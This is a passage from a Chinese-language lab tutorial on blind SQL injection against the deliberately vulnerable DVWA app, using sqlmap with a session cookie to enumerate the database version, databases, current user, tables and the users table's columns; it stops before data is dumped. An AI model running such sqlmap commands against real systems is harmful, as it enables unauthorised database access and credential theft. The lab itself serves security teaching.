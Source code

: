 然后我们可以获得此时的 URL。

接着我们可以通过 cookie_manager 工具获得我们此时的 cookie 值：

![show-cookie](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354106708.png/wm)

紧跟着我们登陆至 kali 的终端中，并输入这样的命令：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc"
```

此处的 PHPSESSID 值请输入自己的 cookie 值。

敲击回车之后，会不断提示询问我们时候继续，当时选择 y，最后我们可以看到一个很有用的消息：

![show-version](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354123062.png/wm)

我们看到它给我们整个网站搭建所使用的平台以及相应的版本号，我们得到使用的是 MySQL 数据库。

在上面的命令之上我们添加 `--dbs` 参数，来攻击数据库，查看有哪些数据库：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" --dbs
```

![show-dbs](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354133245.png/wm)

查看当前使用的数据库与登陆的用户：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -b --current-db --current-user
```

![show-current-db](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354156288.png/wm)

我们当前使用的 dvwa，所以我们选择查看 dvwa 数据库中有哪些数据表：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa --tables
```

![show-tables](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354168523.png/wm)

得知数据表的名称，当然我们将进一步获取表中表项的内容了：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users --columns
```

![show-columns](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354198634.png/wm)

既然都看到表项了，当然要看看具体数据：
